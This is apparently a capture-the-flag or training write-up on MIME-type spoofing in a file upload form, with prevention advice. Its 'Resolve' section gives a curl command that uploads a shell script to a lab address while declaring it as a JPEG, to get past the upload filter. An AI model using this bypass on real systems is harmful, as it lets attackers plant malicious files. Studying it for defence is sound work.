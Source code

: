 # Vulnerability

MIME spoofing is used by attackers to manipulate the MIME (Multipurpose Internet Mail Extensions) type of a file to bypass security controls and potentially execute malicious code.

# Identification

We have a form with an input that allows us to upload files.

# Resolve

open your terminal on do a request
create a script file
curl -X POST -F "uploaded=@/Users/tpinto-m/Desktop/script.sh;type=image/jpg" -F 'Upload=Upload' 'http://10.11.249.210/?page=upload#'

# Prevent

- Input Sanitization: Sanitize all user inputs, including file names and content
- Content Validation: Inspect the actual contents of uploaded files, not just the declared MIME type
- File Extension Checks: Verify that file extensions match the expected content type
- Use Framework
- Use secured library

# Resources

https://reqbin.com/req/c-dot4w5a2/curl-post-file

